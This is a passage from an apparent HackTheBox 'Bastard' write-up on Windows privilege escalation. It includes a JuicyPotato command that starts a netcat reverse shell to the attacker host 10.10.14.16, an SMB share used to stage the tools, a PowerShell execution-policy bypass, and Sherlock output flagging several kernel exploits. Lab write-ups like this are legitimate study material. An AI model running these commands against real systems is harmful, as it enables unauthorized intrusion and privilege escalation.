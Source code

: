 ```bash
...
System Type:               x64-based PC
...
Hotfix(s):                 N/A
```

We've `SeImpersonatePrivilege` and this is a `Windows Server 2008 R2` machine so we should be able to use JuicyPotato.

```bash
luc@kali:~/HTB/Bastard$ cp /opt/JuicyPotatoBinaries/JuicyPotato.exe .
luc@kali:~/HTB/Bastard$ cp /home/luc/Downloads/netcat-win32-1.12/nc64.exe .
luc@kali:~/HTB/Bastard$ sudo python2 /opt/impacket/examples/smbserver.py share `pwd` -smb2support
```

```bash
PS C:\inetpub\drupal-7.54> net use Z: \\10.10.14.16\share
PS Z:\> .\JuicyPotato.exe -t * -l 9000 -p nc64.exe -a "-e cmd 10.10.14.16 444"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9000
COM -> recv failed with error: 10038
```

### Sherlock

```bash
luc@kali:~/HTB/Bastard$ cp /opt/Sherlock/Sherlock.ps1 .
luc@kali:~/HTB/Bastard$ nano Sherlock.ps1
...
Find-AllVulns > Sherlock.result 2>&1
```

```bash
PS Z:\> .\Sherlock.ps1
File Z:\Sherlock.ps1 cannot be loaded because the execution of scripts is disabled on this system.
Please see "get-help about_signing" for more details.
```

We need to find a way to run Sherlock without triggering the script execution detection

```bash
PS Z:\> powershell -ExecutionPolicy Bypass -File Sherlock.ps1
...
Title      : Task Scheduler .XML
MSBulletin : MS10-092
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Appears Vulnerable
...
Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
...
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

```
